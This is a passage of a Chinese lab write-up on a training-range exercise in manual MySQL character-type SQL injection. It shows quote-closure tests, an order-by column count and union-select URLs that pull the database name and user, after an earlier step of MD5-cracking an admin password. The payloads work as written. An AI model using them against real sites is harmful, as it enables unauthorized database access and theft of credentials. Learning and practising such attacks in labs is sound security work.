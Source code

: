 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757344010721-367962c0-8a26-40cf-8d63-9ce0639c7add.png)

选取`status=1`的密码进行MD5解密：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757344042314-3080f13b-9063-4cc9-8244-753deab9d513.png)

将得到的账号密码输入：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343702238-2d24f445-65b1-4191-b179-dc345e613458.png)

进入后台，得到KEY：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343721486-99608c5e-4f8f-4f85-89a5-ef4d52e6a2f7.png)

# SQL手工注入漏洞测试(MySQL数据库-字符型)
进入环境后，页面与上一题一样，直接进入通知页面：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757381421277-d17f7723-e918-44b8-8469-fccb3302d9c9.png)

开始用单双引号测试闭合方式：

```plain
http://124.70.64.48:46754/new_list.php?id=tingjigonggao' or '1'='1
http://124.70.64.48:46754/new_list.php?id=tingjigonggao" or "1"="1
```

发现单引号<font style="color:rgb(77, 77, 77);">能正确返回页面，双引号不行。</font>

<font style="color:rgb(77, 77, 77);">开始用</font>`<font style="color:rgb(77, 77, 77);">order by</font>`<font style="color:rgb(77, 77, 77);">测试列数：</font>

```plain
http://124.70.64.48:46754/new_list.php?id=tingjigonggao' order by 5--+
```

发现有4列。

开始用`union`注入，回显数据库数据：

```plain
http://124.70.64.48:46754/new_list.php?id=tingjigonggao' union select 1,2,3,4--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382117138-c6f21f97-de60-45cd-b178-ce3ccb08d802.png)

页面正常执行，但没有返回`union select`的结果，这是因为代码只返回第一条结果，所以`union select`获取的结果没有输出到页面。可以通过设置参数`id`的值，让服务端返回`union select`的结果。例如，把`id`的值设置为`tingji`，这样数据库没有`id=tingji`的数据，就会返回`union select`的结果：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,2,3,4--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757382169452-bb6f38fb-96d3-44b7-ac20-3518f2b1a6fe.png)

可以看到，页面只回显2、3列的数据，所以可以在这两列读取数据库信息：

```plain
http://124.70.64.48:46754/new_list.php?id=tingji' union select 1,database(),user(),4--+
```
